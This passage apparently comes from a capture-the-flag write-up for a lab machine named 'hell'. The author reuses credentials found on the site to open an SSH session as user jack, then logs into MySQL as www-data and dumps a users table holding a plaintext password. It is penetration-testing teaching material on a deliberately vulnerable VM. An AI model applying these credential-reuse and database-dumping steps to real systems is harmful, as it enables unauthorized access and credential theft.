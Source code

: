The comment was quite helpful along with all the mentions of Jack on the website, along with the `/etc/passwd` revealing a `jack` user, I tried these credentials on a SSH session:

```bash ssh as jack
root@kali:~# ssh jack@192.168.56.102
jack@192.168.56.102's password:
Linux hell 3.2.0-4-486 #1 Debian 3.2.57-3+deb7u2 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Sun Jul 20 04:29:06 2014 from 192.168.56.1
$ id
uid=1001(jack) gid=1001(jack) groups=1001(jack)
$
```

Well that was easy... With this shell, I also checked out the MySQL database to see if there is any interesting information:

```mysql Hell MySQL
$ mysql -uwww-data -pwebsite
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10320
Server version: 5.5.37-0+wheezy1 (Debian)

Copyright (c) 2000, 2014, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| website            |
+--------------------+
2 rows in set (0.00 sec)

mysql> use website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_website |
+-------------------+
| users             |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----------+-----------+
| username | password  |
+----------+-----------+
| Jack     | g0tmi1k69 |
```